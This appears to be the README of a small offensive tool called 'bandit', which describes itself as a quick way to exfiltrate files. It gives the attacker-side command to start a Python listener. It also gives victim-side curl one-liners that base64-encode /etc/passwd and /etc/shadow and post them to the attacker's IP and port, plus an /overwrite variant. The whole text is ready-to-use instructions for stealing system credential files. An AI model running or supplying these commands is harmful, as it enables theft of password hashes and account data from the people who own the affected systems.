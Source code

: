 # bandit
A quick and easy way to exfiltrate files

# usage
Attacker: ```python3 bandit.py [port]```

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```

It is important to use double quotes to allow bash to process reading the files and encoding them before upload

If you wish to overwrite the existing files, instead of failing to upload if they exist on the server, specify the /overwrite path. This will scribble over any existing files on the server that conflict with the attempted upload, so use with caution. Yes, path travesal checks are made before file IO

Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/overwrite```

